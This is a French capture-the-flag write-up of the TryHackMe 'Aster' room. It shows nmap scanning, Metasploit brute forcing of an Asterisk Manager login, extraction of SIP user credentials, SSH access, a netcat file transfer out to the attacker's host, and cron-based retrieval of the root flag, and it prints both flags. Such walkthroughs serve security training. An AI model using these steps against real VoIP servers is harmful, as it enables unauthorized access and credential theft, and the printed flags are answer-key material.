

# Aster #

## Task 1 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.83.102 aster.thm'  >> /etc/hosts" 
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A aster.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 15:55 CEST
Nmap scan report for aster.thm (10.10.83.102)
Host is up (0.077s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:e3:52:06:50:93:2e:3f:7a:aa:fc:69:dd:cd:14:a2 (RSA)
|   256 9c:4d:fd:a4:4e:18:ca:e2:c0:01:84:8c:d2:7a:51:f2 (ECDSA)
|_  256 c5:93:a6:0c:01:8a:68:63:d7:84:16:dc:2c:0a:96:1d (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Aster CTF
1720/tcp open  h323q931?
2000/tcp open  cisco-sccp?
5038/tcp open  asterisk    Asterisk Call Manager 5.0.2
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/6%OT=22%CT=1%CU=32899%PV=Y%DS=2%DC=T%G=Y%TM=61361E29
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10F%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=104%GCD=1%ISR=10F%TI=Z%II=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3
OS:=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.44 ms 10.9.0.1
2   96.11 ms aster.thm (10.10.83.102)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.15 seconds
```

On remarque plusieurs services :
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   
Le service asterik sur le port 5038.   
Des services inconnu sur le port 1720, 2000.  



Sur la page principale on tombe sur un lien pour télécharger un fichier.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://aster.thm/output.pyc -nv
2021-09-06 16:13:01 URL:http://aster.thm/output.pyc [1072/1072] -> "output.pyc" [1]
```

On télécharge un fichier output.pyc qui est un fichier en bycode python.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/Pycdas-Pycdc-compiled/raw/master/pycdc -nv
2021-09-06 16:28:27 URL:https://raw.githubusercontent.com/timruff/Pycdas-Pycdc-compiled/master/pycdc [883544/883544] -> "pycdc" [1]
tim@kali:~/Bureau/tryhackme/write-up$ chmod +x pycdc

tim@kali:~/Bureau/tryhackme/write-up$ pycdc output.pyc 
# Source Generated with Decompyle++
# File: output.pyc (Python 2.7)

import pyfiglet
o0OO00 = pyfiglet.figlet_format('Hello!!')
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
if 0:
    (i1 * ii1IiI1i % OOooOOo) / I11i / o0O / IiiIII111iI
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
if 0:
    iii1I1I / O00oOoOoO0o0O.O0oo0OO0 + Oo0ooO0oo0oO.I1i1iI1i - II
print o0OO00

```

On télécharge un programme pour décompiler le fichier.   
On le décompile et on remarque deux chaînes encodés.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pycdc output.pyc > output.py 
tim@kali:~/Bureau/tryhackme/write-up$ cat output.py
# Source Generated with Decompyle++
# File: output.pyc (Python 2.7)

import pyfiglet
o0OO00 = pyfiglet.figlet_format('Hello!!')
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')

print(Oooo000o)

Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')

print(Ooo)

tim@kali:~/Bureau/tryhackme/write-up$ python output.py
Good job, user "admin" the open source framework for building communications, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!

```

On modifie le code source,il nous décode la chaîne.  
On trouve le nom de l'utilisateur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
[!] The following modules could not be loaded!
[!] 	/usr/share/metasploit-framework/modules/auxiliary/gather/office365userenum.py
[!] Please see /home/tim/.msf4/logs/framework.log for details.
msf6 > search asterisk

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  auxiliary/gather/asterisk_creds                                         normal     No     Asterisk Gather Credentials
   1  auxiliary/voip/asterisk_login                                           normal     No     Asterisk Manager Login Utility
   2  exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce  2020-04-28       excellent  Yes    TrixBox CE endpoint_devicemap.php Authenticated Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce

msf6 auxiliary(gather/asterisk_creds) > use 1
msf6 auxiliary(voip/asterisk_login) > options

Module options (auxiliary/voip/asterisk_login):

   Name              Current Setting                                                    Required  Description
   ----              ---------------                                                    --------  -----------
   BLANK_PASSWORDS   false                                                              no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                  yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                              no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                              no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                              no        Add all users in the current database to the list
   PASSWORD                                                                             no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        The file that contains a list of probable passwords.
   RHOSTS                                                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             5038                                                               yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                              yes       Stop guessing when a credential works for a host
   THREADS           1                                                                  yes       The number of concurrent threads (max one per host)
   USERNAME                                                                             no        A specific username to authenticate as
   USERPASS_FILE                                                                        no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                              no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/unix_users.txt      no        The file that contains a list of probable users accounts.
   VERBOSE           true                                                               yes       Whether to print output for all attempts

msf6 auxiliary(voip/asterisk_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(voip/asterisk_login) > set RHOSTS aster.thm 
RHOSTS => aster.thm
msf6 auxiliary(voip/asterisk_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(voip/asterisk_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(voip/asterisk_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(voip/asterisk_login) > run

[*] 10.10.83.102:5038     - Initializing module...
[+] 10.10.83.102:5038     - User: "admin" using pass: "abc123" - can login on 10.10.83.102:5038!
[*] aster.thm:5038        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Avec metasploit on brute force la mot de passe, il trouve le mot de passe : abc123  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet aster.thm 5038
Trying 10.10.111.21...
Connected to aster.thm.
Escape character is '^]'.
Asterisk Call Manager/5.0.2
ACTION: LOGIN
USERNAME: admin
SECRET: abc123
EVENTS: ON

Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 1198
LastReload: 1198
Status: Fully Booted

ACTION: command
COMMAND: sip show users

Response: Success
Message: Command output follows
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: harry                      p4ss#w0rd!#                       test             No   No        
```

On se connect à asterisk
On demande de lister les utilisateurs.   
On trouve des identifiants qui sont :    
Nom : harry
Mot de passe : p4ss#w0rd!# 

**Compromise the machine and locate user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh harry@aster.thm
harry@aster.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Wed Aug 12 14:25:25 2020 from 192.168.85.1
harry@ubuntu:~$ ls
Example_Root.jar  user.txt
harry@ubuntu:~$ cat user.txt 
thm{bas1c_aster1ck_explotat1on}
```

On se connect sur la session de harry.  
Dans le répertoire d'harry on un fichier user.txt.
On lit le fichier et on trouve le flag.   

La réponse est : thm{bas1c_aster1ck_explotat1on}    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > Example_Root.jar
-------------------------------
harry@ubuntu:~$ nc 10.9.228.66 1234 < Example_Root.jar 
```

On transfer le fichier pour analyse.   

```bash  
tim@kali:~/Bureau/tryhackme/write-up$ unzip Example_Root.jar 
Archive:  Example_Root.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
  inflating: Example_Root.class      

tim@kali:~/Bureau/tryhackme/write-up$ file Example_Root.class 
Example_Root.class: compiled Java class data, version 55.0

```

On récupère Example_Root.jar.   
On extrait le fichier class.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/jd-cli-compiled/raw/master/jd-cli-1.0.0.jar -nv
2021-09-06 18:39:00 URL:https://raw.githubusercontent.com/timruff/jd-cli-compiled/master/jd-cli-1.0.0.jar [888082/888082] -> "jd-cli-1.0.0.jar" [1]

tim@kali:~/Bureau/tryhackme/write-up$ java -jar jd-cli-1.0.0.jar Example_Root.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;

public class Example_Root {
  public static boolean isFileExists(File paramFile) {
    return paramFile.isFile();
  }
  
  public static void main(String[] paramArrayOfString) {
    String str = "/tmp/flag.dat";
    File file = new File(str);
    try {
      if (isFileExists(file)) {
        FileWriter fileWriter = new FileWriter("/home/harry/root.txt");
        fileWriter.write("my secret <3 baby");
        fileWriter.close();
        System.out.println("Successfully wrote to the file.");
      } 
    } catch (IOException iOException) {
      System.out.println("An error occurred.");
      iOException.printStackTrace();
    } 
  }
}

```

On télécharge un programme qui décompile le fichier Example_Root.class.   
Le programme vérifie si un fichier flag.dat existe dans /tmp/.   
Si le fichier existe, le fichier root.txt sera écrit dans /home/harry/.

```bash
harry@ubuntu:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
*  *	* * *	root	cd /opt/ && bash ufw.sh
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /root/java/ && bash run.sh
#
```

Le service cron exécute fichier run.sh dans /root/java.   
run.sh doit exécuter un fichier similaire que celui que l'on a décompiler.   

```bash
harry@ubuntu:~$ echo "toctoctoc" > /tmp/flag.dat
harry@ubuntu:~$ cat root.txt 
thm{fa1l_revers1ng_java}
```

On crée un fichier /tmp/flag.dat   
On attend environ 1 min.  
Un fichier root.txt apparaît.   
On lit le fichier.   

La réponse est : thm{fa1l_revers1ng_java}    